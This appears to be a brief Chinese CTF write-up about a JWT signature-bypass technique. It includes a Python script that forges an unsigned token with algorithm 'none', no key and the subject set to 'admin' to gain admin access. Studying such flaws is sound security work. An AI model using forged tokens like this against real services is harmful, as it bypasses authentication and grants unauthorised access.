

# 知识点
**将签名算法改为none**
# 思路
用jwt.io进行解密，发现用的HS256加密方法<br /><br />通过脚本将加密方法改为none，并把sub的值改为admin
```python
import jwt

# payload
token_dict = {
    "iss": "admin",
    "iat": 1660142773,
    "exp": 1660149973,
    "nbf": 1660142773,
    "sub": "admin",
    "jti": "85078c60917b94d0c5aef03995eec369"
}

headers = {
    "alg": "none",
    "typ": "JWT"
}
jwt_token = jwt.encode(token_dict,  # payload, 有效载体
                       "",  # 进行加密签名的密钥
                       algorithm="none",  # 指明签名算法方式, 默认也是HS256
                       headers=headers
                       # json web token 数据结构包含两部分, payload(有效载体), headers(标头)
                      )

print(jwt_token)

```
